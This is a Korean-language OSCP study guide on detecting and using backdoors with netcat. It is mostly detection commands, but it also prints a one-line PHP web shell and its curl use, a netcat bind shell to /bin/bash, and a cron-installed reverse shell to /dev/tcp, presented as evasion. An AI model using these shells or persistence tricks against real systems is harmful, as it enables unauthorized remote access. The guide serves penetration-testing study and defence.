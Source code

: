 # 🚪 백도어 탐지 및 활용 가이드

백도어는 일반적인 인증 메커니즘을 우회하여 시스템에 접근할 수 있게 해주는 방법입니다. OSCP 시험에서는 이러한 백도어를 발견하고 활용하는 능력이 중요합니다. 이 문서에서는 주로 `netcat`을 이용한 백도어 탐지 및 활용 방법을 다룹니다.

## 1. 네트워크 연결 및 백도어 탐지

### 🔍 열린 포트 및 수상한 연결 확인

```bash
# 모든 활성 연결과 리스닝 포트 확인
netstat -antup

# 확립된 연결 확인
netstat -antp | grep ESTABLISHED

# 특정 프로세스에 연결된 포트 확인 (PID가 1234인 경우)
netstat -antp | grep 1234
```

### 🔍 특이한 리스닝 포트 식별

```bash
# 표준 포트가 아닌 리스닝 포트 확인
netstat -tunlp | grep -v -E "^(tcp6|udp6)"

# 일반적이지 않은 포트 범위 확인 (예: > 10000)
netstat -tunlp | grep -v -E "^(tcp6|udp6)" | grep -E ':1[0-9]{4}'
```

## 2. 파일 시스템에서 백도어 흔적 찾기

### 🔍 수상한 실행 파일 검색

```bash
# SUID 설정된 파일 검색 (권한 상승용 백도어일 수 있음)
find / -perm -4000 -type f 2>/dev/null

# 최근에 생성되거나 수정된 파일 검색
find / -type f -mtime -7 -not -path "/proc/*" -not -path "/sys/*" 2>/dev/null

# 숨겨진 파일 및 디렉토리 검색
find / -name ".*" -type f -not -path "/proc/*" -not -path "/sys/*" 2>/dev/null
```

### 🔍 웹 서버 관련 백도어 검색

```bash
# 웹 디렉토리에서 PHP 백도어 검색
find /var/www/ -name "*.php" -type f -exec grep -l "system(" {} \; 2>/dev/null
find /var/www/ -name "*.php" -type f -exec grep -l "eval(" {} \; 2>/dev/null
find /var/www/ -name "*.php" -type f -exec grep -l "base64_decode(" {} \; 2>/dev/null
```

## 3. 시스템 프로세스 검사

### 🔍 수상한 프로세스 확인

```bash
# 사용자 프로세스 확인
ps aux | grep -v "root\|daemon\|bin"

# 부모 프로세스가 없는 프로세스 찾기 (PID 1 제외)
ps aux | awk '$3 == 1 && $2 != 1 {print}'
```

### 🔍 cron 작업 검사

```bash
# 시스템 전체 cron 작업 확인
ls -la /etc/cron*

# 사용자별 cron 작업 확인
ls -la /var/spool/cron/crontabs/

# cron 작업 내용 확인
cat /etc/crontab
```

## 4. Netcat을 이용한 백도어 탐지 및 테스트

### 🔍 특정 포트 연결성 확인

```bash
# 특정 포트로 연결 테스트 (예: 포트 4444)
nc -nvz 10.10.10.10 4444

# 범위 포트 스캔 (예: 4000-5000)
nc -nvz 10.10.10.10 4000-5000
```

### 🔍 배너 그래빙으로 서비스 식별

```bash
# 특정 포트에서 실행 중인 서비스 확인
echo "" | nc -nv 10.10.10.10 4444
```

## 5. 발견된 백도어 연결 및 활용

### 🔍 기존 백도어 연결 시도

```bash
# 단순 연결 시도
nc 10.10.10.10 4444

# 대화형 세션 유지
nc -vn 10.10.10.10 4444
```

### 🔍 백도어 쉘에 연결

```bash
# 기존 netcat 백도어에 연결
nc 10.10.10.10 4444

# 연결 후 명령어 실행 테스트
whoami
id
```

## 6. 실제 시나리오 예시

### 🔍 시나리오 1: 웹 서버 백도어 발견

1. 웹 서버에서 수상한 PHP 파일 발견:

```bash
find /var/www/ -type f -name "*.php" -mtime -2 | xargs cat | grep -i "backdoor\|shell\|system"
```

2. 발견된 파일 분석 (`c99.php`):

```bash
cat /var/www/html/images/c99.php
# 내용 중에 백도어 코드 확인: <?php system($_GET['cmd']); ?>
```

3. 백도어 접근 테스트:

```bash
curl "http://10.10.10.10/images/c99.php?cmd=whoami"
```

### 🔍 시나리오 2: Netcat 리스너 백도어 발견

1. 수상한 프로세스 발견:

```bash
ps aux | grep nc
# 발견: /bin/nc -lvp 4444 -e /bin/bash
```

2. 연결 테스트:

```bash
nc 10.10.10.10 4444
whoami
id
```

3. 정보 수집 및 권한 상승:

```bash
# 백도어 쉘 내에서
uname -a
sudo -l
find / -perm -4000 -type f 2>/dev/null
```

## 7. 백도어 탐지 피하기 (방어자 관점)

### 🔍 비표준 포트 사용

```bash
# 특이한(흔하지 않은) 포트 번호 사용
nc -lvp 58742 -e /bin/bash
```

### 🔍 간헐적 연결 백도어 설정

```bash
# cron을 사용한 간헐적 백도어 (5분마다 외부로 연결 시도)
echo "*/5 * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.10.10/443 0>&1'" > /tmp/cronjob
crontab /tmp/cronjob
```

## 8. 백도어 탐지를 위한 체크리스트

- [ ] 네트워크 연결 검사 (`netstat -antup`)
- [ ] 비정상적인 리스닝 포트 확인
- [ ] SUID/SGID 파일 점검
- [ ] 웹 디렉토리의 수상한 파일 확인
- [ ] 사용자 프로세스 검사
- [ ] Cron 작업 검토
- [ ] 최근 생성/수정된 파일 확인

## 💡 참고 사항

1. OSCP 시험에서는 자동화된 도구 사용이 제한될 수 있으므로, 수동 분석 기법을 숙지하는 것이 중요합니다.
2. 백도어 탐지 후에는 해당 백도어가 어떻게 설치되었는지 역추적하여 초기 침투 경로를 파악하는 것이 좋습니다.
3. 시스템 로그 파일(`/var/log/` 디렉토리)을 검사하여 백도어 설치와 관련된 활동을 확인할 수 있습니다.

---

## 🔗 OSCP 시험에서 사용 가능한 백도어 관련 명령어 치트 시트

| 목적             | 명령어                                                               |
| ---------------- | -------------------------------------------------------------------- |
| 리스닝 포트 확인 | `netstat -tunlp`                                                     |
| 수상한 연결 확인 | `netstat -antp \| grep ESTABLISHED`                                  |
| SUID 파일 찾기   | `find / -perm -4000 -type f 2>/dev/null`                             |
| 웹 백도어 검색   | `find /var/www/ -type f -name "*.php" -exec grep -l "system(" {} \;` |
| 수상한 cron 확인 | `cat /etc/crontab`                                                   |
| 특정 포트 테스트 | `nc -nvz 10.10.10.10 4444`                                           |
| 백도어 연결      | `nc 10.10.10.10 4444`                                                |
